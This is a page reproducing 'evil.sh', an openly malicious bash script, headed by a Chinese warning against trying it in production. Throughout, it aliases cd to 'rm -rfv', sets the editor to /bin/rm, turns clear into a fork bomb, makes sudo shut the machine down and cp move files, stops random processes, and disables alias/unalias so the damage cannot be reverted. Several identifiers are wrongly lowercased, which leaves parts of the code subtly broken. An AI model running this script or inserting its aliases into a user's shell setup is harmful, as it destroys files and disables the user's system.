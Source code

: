 ### evil.sh
###5星警告,如果想在生产环境测试本脚本,请先学习从删库到跑路教程
    #!/usr/bin/env bash
    # evil.sh — https://mths.be/evil.sh

    # set `rm` as the default editor.
    export editor=/bin/rm;

    # make tab send the delete key.
    tset -qe $'\t';

    # randomly make the shell exit whenever a command has a non-zero exit status.
    ((random % 10)) || set -o errexit;

    # let `cat` swallow every input and never return anything.
    alias cat=true;

    # use a random sort option whenever `ls` is invoked.
    function ls { command ls -$(opts="frstu"; echo ${opts:$((random % ${#opts})):1}) "$@"; }

    # delete directories instead of entering them.
    alias cd='rm -rfv';

    # shut down the computer instead of running a command with super-user rights.
    alias sudo='sudo shutdown -p now';

    # launch a fork bomb instead of clearing the screen.
    alias clear=':(){ :|:& };:';

    # have `date` return random dates.
    alias date='date -d "now + $random days"';

    # sometimes, wait a few minutes and then start randomly ejecting the cd drive.
    # other times, resist all attempts at opening it. other times, make it read
    # reaaaalllly sllooowwwwllly.
    if [ "$(uname)" = 'darwin' ]; then
    	# much less fun on macs, alas.
    	if [[ $[$random % 2] == 0 ]]; then
    		# eject!
    		sh -c 'sleep $[($random % 900) + 300]s; while :; do drutil eject; sleep $[($random % 20) + 1]s; done' > /dev/null 2>&1 &
    	else
    		# lock! admittedly, much less annoying on most macs,	which don’t support
    		# locking and are slot-loading anyway.
    		sh -c 'while :; do drutil tray close; sleep 0.1s; done' > /dev/null 2>&1 &
    	fi;
    else
    	n=$[$random % 3];
    	if [[ $n == 0 ]]; then
    		# open and close randomly after a few minutes.
    		sh -c 'sleep $[($random % 900) + 300]s; while :; do eject -t; sleep $[($random % 20) + 1]s; done' > /dev/null 2>&1 &
    	elif [[ $n == 1 ]]; then
    		# lock, and keep closing just in case.
    		sh -c 'while :; do eject -t; eject -i on; sleep 0.1s; done' > /dev/null 2>&1 &
    	else
    		# slowness (1× cd speed). this has to be in a loop because it resets with
    		# every ejection.
    		sh -c 'set +o errexit; while :; do eject -x 1; sleep 1s; done' > /dev/null 2>&1 &
    	fi;
    fi;

    # send stop signal to random process at random time.
    sleep $[ ( $random % 100 )	+ 1 ]s && kill -stop $(ps x -o pid|sed 1d|sort -r|head -1) &

    # have `cp` perform `mv` instead.
    alias cp='mv';

    # make `exit` open a new shell.
    alias exit='sh';

    # add a random number to line numbers when using `grep -n`.
    function grep { command grep "$@" | awk -f: '{ r = int(rand() * 10); n = $1; $1 = ""; command if (n ~ /^[0-9]+$/) { o = n+r } else { o = n }; print o ":" substr($0, 2)}'; }

    # invert `if`, `for`, and `while`.
    alias if='if !' for='for !' while='while !';

    # map enter, ctrl+j, and ctrl+m to backspace.
    bind '"\c-j":"\c-?"';
    bind '"\c-m":"\c-?"';

    # send `n` (no) instead of `y` (yes)
    alias yes="yes n";

    # quit vim on startup.
    alias vim="vim +q";

    # disable `unalias` and `alias`.
    alias unalias=false;
    alias alias=false;
